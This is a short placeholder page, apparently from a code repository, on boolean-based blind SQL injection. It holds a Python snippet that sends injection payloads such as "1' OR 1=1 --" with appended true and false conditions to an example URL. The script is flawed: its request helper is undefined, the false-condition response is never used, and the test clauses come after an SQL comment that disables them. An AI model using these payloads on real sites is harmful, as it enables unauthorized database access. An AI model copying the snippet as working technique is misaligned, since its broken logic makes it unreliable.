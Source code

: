 # Boolean-Based Blind Query SQL Injection

This is just for reference but will be removed once the information is filled.

```python
# Check if the response contains a specific string when the condition is true
def boolean_based_blind_sql_injection(target_url, injection_payload):
    response_when_condition_true = send_request(target_url, injection_payload + " AND 1=1 --")
    response_when_condition_false = send_request(target_url, injection_payload + " AND 1=2 --")

    if "True Response String" in response_when_condition_true:
        return True  # The injected condition is true
    else:
        return False  # The injected condition is false

# Example usage
target_url = "https://example.com/vulnerable-page"
injection_payload = "1' OR 1=1 --"

result = boolean_based_blind_sql_injection(target_url, injection_payload)
print("Is the injected condition true?", result)
```